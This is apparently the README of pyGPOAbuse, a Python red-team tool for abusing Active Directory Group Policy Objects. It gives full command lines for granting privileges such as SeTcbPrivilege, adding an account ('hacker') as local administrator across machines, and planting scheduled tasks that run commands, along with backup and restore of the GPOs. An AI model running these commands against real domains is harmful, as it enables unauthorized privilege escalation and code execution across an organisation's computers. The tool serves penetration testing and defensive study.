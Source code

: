 # pyGPOAbuse

A Python implementation of GPO Abuse techniques, inspired by [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse).

## Overview

This tool allows you to abuse Group Policy Objects (GPOs) in Active Directory environments. It provides the following capabilities:

1. Add user rights to an account in a GPO
2. Add a user to the local administrators group in a GPO
3. Add scheduled tasks to a GPO 
4. Backup a GPO before modification
5. Restore a GPO after modification

## Features

- **Add user rights**: Assign specific rights to a user account through GPO
- **Add local administrator**: Add a user to the local administrators group on all affected machines
- **Add scheduled tasks**: Create tasks in GPOs that will be executed on targeted computers/users
- **Backup/Restore GPOs**: Safely backup a GPO's state before modification and restore it later

## Usage

### General Syntax

```
python pygpoabuse.py <domain>/<username>[:<password>] [options]
```

### Authentication Options

```
-hashes LMHASH:NTHASH   Use NTLM hashes for authentication
-k                      Use Kerberos authentication
-dc-ip IP               Domain controller IP or hostname
-ldaps                  Use LDAPS instead of LDAP
-ccache FILE            ccache file for Kerberos authentication
```

### Adding User Rights

```
python pygpoabuse.py domain/username:password --add-rights -gpo-id "{GUID}" -rights "SeTcbPrivilege,SeBackupPrivilege" -user-account "targetuser"
```

### Adding Local Administrator

```
python pygpoabuse.py domain/username:password --add-local-admin -gpo-id "{GUID}" -admin-account "targetuser"
```

This will add the specified user to the local administrators group on all computers where the GPO applies.

### Adding Scheduled Tasks

```
python pygpoabuse.py domain/username:password --add-task -gpo-id "{GUID}" -taskname "Maintenance" -command "cmd.exe" -user
```

Use `-user` to create a user GPO task, otherwise it will create a computer GPO task.

### Backing Up a GPO

Before making changes to a GPO, you can create a backup:

```
python pygpoabuse.py domain/username:password --backup-gpo -gpo-id "{GUID}" [-backup-dir "/path/to/backups"]
```

This will create a backup of the GPO and return a backup ID (also printed to the console). You can optionally specify a directory to store the backup with `-backup-dir`.

### Restoring a GPO

After you're done with your operations, you can restore the GPO to its original state:

```
python pygpoabuse.py domain/username:password --restore-gpo -backup-id "gpo_backup_{GUID}_{TIMESTAMP}"
```

Alternatively, you can specify the backup directory directly:

```
python pygpoabuse.py domain/username:password --restore-gpo -backup-dir "/path/to/backup_folder"
```

## Example Workflow

This example demonstrates a complete workflow for safely abusing a GPO:

1. First, backup the GPO:
```
python pygpoabuse.py domain/admin:password --backup-gpo -gpo-id "{GUID}"
```

2. Add a user as local administrator:
```
python pygpoabuse.py domain/admin:password --add-local-admin -gpo-id "{GUID}" -admin-account "hacker"
```

3. After completing your operations, restore the GPO:
```
python pygpoabuse.py domain/admin:password --restore-gpo -backup-id "gpo_backup_{GUID}_{TIMESTAMP}"
```

## Credits

- This tool is a Python implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by @pkb1s
- Thanks to @airman604 for [schtask_now.py](https://github.com/airman604/schtask_now) that was used and modified in this project


